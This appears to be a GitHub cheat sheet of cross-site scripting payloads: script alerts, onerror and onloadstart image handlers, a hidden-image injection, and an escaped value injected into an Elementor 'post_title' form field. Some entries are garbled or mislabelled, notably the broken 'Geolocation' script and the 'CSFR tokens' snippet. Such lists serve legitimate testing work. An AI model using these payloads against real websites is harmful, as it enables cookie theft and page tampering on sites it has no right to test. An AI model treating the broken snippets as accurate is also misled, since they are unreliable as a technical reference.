 ## DOM & STORED
```
<script>alert(document.domain)</script>
```
## Self Cross-Site Scripting 
```mysql
<img src="" onerror="alert(document.cookie)">
```
## Non ExistantImage
```
<div><image src=validateNonExistantImage.png onloadstart=alert(1337)> hey girl hey </div>
```
## Get cookie
```
nu11secur1ty<script>alert(document.cookie)</script>
```
## Alert check
```
<script>alert("Hello");</script>
<script>alert("nu11secur1ty_is_here");</script>
```

## Hidden Image
```
<script>function a() { document.write("<img src='https://raw.githubusercontent.com/nu11secur1ty/XSSight/master/XSS-image/image/kostaakatil.webp'></img>"); }; window.onload = a; alert("A Hidden scripted image, warning you are vulnerable!");</script>
```
## Post image
```
<form action="#" method="post"><label for="imgURL">image URL:</label><input type="url" id="imgURL"/><label for="pageURL">page URL:</label><input type="url" id="pageURL"/><button id="imgAdd">add image</button></form>
```
- 0.1
```
</span><img src=https://cdn5-capriofiles.netdna-ssl.com/wp-content/uploads/2017/07/IMG_0068.gif <a href=http://example.com/> onerror=alert(1) /></span>
```
## without error report + link to malicious URL

```js
<span><img src=https://cdn5-capriofiles.netdna-ssl.com/wp-content/uploads/2017/07/IMG_0068.gif>link<a href=http://example.com/></span>
<img src=https://cdn5-capriofiles.netdna-ssl.com/wp-content/uploads/2017/07/IMG_0068.gif>
<a href="https://www.nu11secur1ty.com/"><img src=https://cdn5-capriofiles.netdna-ssl.com/wp-content/uploads/2017/07/IMG_0068.gif" width=150" height="70">


```
## Error check
```
</span><img src=1 onerror=alert(1) /><span>
```
## CSFR tokens
```
<form action="https:/yourdomain.com/acquire_token.php"></textarea>
```
## Geolocation
```
<script>Var today = new Date().toLocaleString() + 'week' + 'day one two three four five six'.charAt(new Date().getDay());document.getElementById('remote').src = "htttp:// + today + "----" + encodeURIComponent(position.coords.latitude) + "," + encodeURIComponent(position.coords.longitude</script>
```
## "post_title" parameter
```
<input class="elementor-field elementor-field-textual elementor-size-lg" type="text" placeholder="" value="\"><script>alert(document.cookie)</script><\"" name="post_title" id="dce_view_f9fc119_post_title">
```
## Document_cookie
```
<input class="elementor-field elementor-field-textual elementor-size-lg" type="text" placeholder="" value="\"><script>alert(document.cookie)</script><\"" name="post_title" id="dce_view_f9fc119_post_title">
```
